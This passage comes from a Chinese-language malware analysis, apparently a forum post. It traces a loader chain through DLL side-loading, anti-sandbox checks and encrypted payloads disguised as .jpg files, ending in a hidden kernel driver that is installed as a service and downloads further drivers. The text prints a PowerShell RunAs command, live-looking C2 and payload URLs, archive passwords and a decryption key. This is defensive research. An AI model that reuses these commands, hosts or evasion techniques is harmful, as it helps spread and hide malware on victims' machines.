
Image-18.png (29.65 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3NHxiZDY5ODc2MnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3NHxiZDY5ODc2MnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 所有文件

Image-19.png (35.31 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3NXw3ZjY0NjBkMXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3NXw3ZjY0NjBkMXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 文件说明
实现持久化：在解压后执行 `Application.exe`，并传入参数 `powershell Start-Process C:\Users\Administrator\AppData\Local\Temp\rn.lnk -Verb RunAs` 和 `C:Windows\system32\WindowsPowerShell\v1.0\powershell.exe`。此操作目的在于利用 `powershell.exe` 和管理员模式来执行 `rn.lnk`，即利用 zip 解压器解压出 `ManicTimeVico.exe` 的快捷方式，并将其放置在 APPDATA 下的启动项目录中，实现持久化操作。


Image-20.png (313.9 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3NnwxN2M0MzRiNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3NnwxN2M0MzRiNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 通过COM对象执行命令

Image-21.png (15.33 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3N3xlMjdkOWY5N3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3N3xlMjdkOWY5N3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## b 压缩包解压后路径
## QQMusic.dll
程序功能：反沙箱、解压执行、劫持驱动加载器。
加载时机：实现持久化之后，用户重启电脑时，`ManicTimeVico.exe` 会自动启动，此时将会加载黑文件 `QQMusic.dll`。
反沙箱：加载后，将会利用 `GetTickCount64` 获取操作系统运行时间，如果获取的时间过长则不会执行恶意代码。
解压执行：随后利用 `r.exe` 和密码 `123456789001122` 对 `jscc.jpg` 进行解压，解压得到 `jscc.exe` 后利用 `WinExec` 来执行 `jscc.exe`（劫持驱动加载器），最后将 `r.exe` 和 `jscc.jpg` 删除。


Image-22.png (249.36 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=Mjc1MTA3OHxmMTM0YjViNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3OHxmMTM0YjViNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 解压 jscc.jpg
## 第二分支
第二分支进入条件：当程序未能进入第一分支时（即 360 进程不存在），对 `C:/Program Files (x86)/DB Commander 2000 PRO` 目录重复检查三次，若三次检查后依旧找不到该目录，则会进入第二分支。
下载文件：进入该分支后，将会下载解压器和劫持驱动加载器的下载器。
解压执行：下载文件后，利用解压器 `rr.exe` 和密码 `FASJKLVFDAJKLCDSA434JKLFDS` 解压 `playtomenu.jpg` 并执行解压出的 `playtomenu.exe`。


Image-23.png (39.63 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3OXxhNzIyMWM4NnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3OXxhNzIyMWM4NnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 下载链接对应表

Image-24.png (162.8 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA4MHwxZjg4Njg4N3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4MHwxZjg4Njg4N3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 下载解压执行
## playtomenu.exe
程序功能：具备反沙箱等功能以防止恶意行为被分析，同时会进行传奇 私服的检测和重复运行的检查，并且能够完成下载、解压、执行劫持驱动加载器等操作。
反沙箱等防止恶意行为分析（与上面一致）：检测磁盘大小、检查当前进程文件路径及最后修改时间、检查是否为管理员等。
检测传奇私 服：检查 `t.ini` 是否存在（因有些传奇私 服会创建 `t.ini` 文件，如果有才会继续执行）。
检测重复运行：检查 `C:\ProgramData\r1.txt` 是否存在，若不存在则会创建 `C:\ProgramData\r1.txt`，若存在则终止进程。
下载文件：随后下载云端配置、解压器、劫持驱动加载器。


Image-25.png (31.29 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA4MXwzYzBkNjg1YXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4MXwzYzBkNjg1YXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:15 上传

## 下载链接与文件路径对应表
解压执行：利用解压器解压出 `Dover.exe` （劫持驱动加载器）后执行该程序。

## 第三分支
第三分支进入条件：当程序无法进入第一分支和第二分支时，对云端配置中 `ttt7.ini#600#fdasfs#fassa111sd#fdsafs#` 的第三个参数进行检查，若该参数为 1 则会进入第三分支。
下载文件：下载解压器和 `g_playtomenu.jpg` 文件（但是分析时发现 `g_playtomenu.jpg` 文件未能下载成功）。


Image-26.png (51.6 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA4Mnw0MmUwYTk4YnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4Mnw0MmUwYTk4YnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:15 上传

## 下载链接对应表

## 统计用户信息

三个分支结束后会向 `d3.largesder.com:8888` 发送 GET 请求 `/shell/?par=3&val=OWFjNmZiMDMtY2RjNC00NmY2LWI1YjgtM2ZhNjQ0NTQ1MjlleDMyODF4MTk5MS0tLS0xMA==` HTTP/1.1\r\nHost:d3.largesder.com\r\nConnection: close\r\n\r\n

对其中数据进行 base64 解码，解码结果为 9ac6fb03-cdc4-46f6-b5b8-3fa64454529ex3281x1991----10。对解码后的结果进行分析，可以发现该样本以【机器码】x【分辨率宽】x【分辨率高】----【Windows 版本】结构进行发送，从而达到统计用户信息的目的。

## 自删除

程序在执行完其他操作后，最终会执行 `delself.cmd`，进行自删除。



Image-27.png (12.76 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4M3xmYjNlM2M4M3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4M3xmYjNlM2M4M3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:15 上传

`delself.cmd`

## 劫持模块

### 劫持模块名称

劫持模块名称：`Dover.exe` 或 `jscc.exe`。

### 来源

来源：经过第一分支与第二分支下载得来。

### 功能

功能：添加证书、加载劫持驱动加载器 `ws3ifsl.sys`。

#### 添加证书

添加证书：将证书添加到系统的根证书存储。



Image-28.png (263.59 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4NHxhMjUzNmYxZXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4NHxhMjUzNmYxZXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:15 上传

添加证书

#### 加载驱动

加载驱动：利用 `GetVersionExW()` 函数判断 Windows 版本，随后赋予相应的被加密的驱动文件数据，之后利用秘钥 `0XBCDKEDFALDKADSLJFLDDDDF` 中前 16 字节进行解密，并写入到 `C:\Windows\System32\drivers\ws3ifsl.sys` 文件中，同时将文件创建时间与最后修改时间都调整为 2020 年 11 月 24 日。

最后创建内核驱动服务，设置为自动启动，并开启服务。



Image-29.png (320.69 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4NXwyN2ExNzNmZnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4NXwyN2ExNzNmZnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:15 上传

解密后加载驱动

## 劫持驱动加载器 `ws3ifsl.sys`

### 功能

功能：检测驱动和驱动隐藏、自我删除、下载劫持驱动 `txlsddlx64.dat` 并加载。

#### 检测驱动和驱动隐藏

该驱动加载后先启动检测驱动模块，主要是检查系统中是否存在 `pchunter64as.sys` 或者 `WIN64AST.SYS` 等 ARK 驱动，若存在则可能进行驱动断链，从而实现驱动隐藏。此外，还会通过 `vmci.sys`、`vmmouse.sys`、`vmrawdsk.sys`、`VBoxGuest.sys`、`VBoxMouse.sys`、`VBoxSF.sys`、`VBoxWddm.sys` 等文件来判断是否处于环境中。



Image-30.png (233.81 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4NnxiYjg3ZjExMnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4NnxiYjg3ZjExMnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:15 上传

检测驱动模块

#### 自我删除

如果 ARK 工具存在，则会将驱动文件 `C:\Windows\System32\drivers\ws3ifsl.sys` 写入到 `C:\ProgramData\Microsoft\Windows\EventStore.dat` 目录中，并删除原文件 `ws3ifsl.sys`，如果系统版本是 Windows 10，则会发送 IRP 删除文件。



Image-31.png (222.12 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4N3xkYTY3MTYxYXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4N3xkYTY3MTYxYXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:15 上传

移动驱动文件

#### 下载劫持驱动并加载

随后调用 TDI 驱动接口下载劫持驱动，在此过程中发现原有链接已经无法连接，通过溯源获取到同源样本 `http://139.196.253.98:39004/auth7.bin` （包含 `txlsddlx64.dat` 下载链接）和 `http://101.37.76.254:31005/txlsddlx64.dat` （劫持驱动）并下载劫持驱动，随后进行取反解密，最终加载该驱动。



Image-32.png (17.13 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4OHxkM2FhNjFkY3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4OHxkM2FhNjFkY3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:15 上传

同源样本链接表



Image-33.png (380.71 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA4OXwxYTAwNWViN3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA4OXwxYTAwNWViN3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

TDI 调用

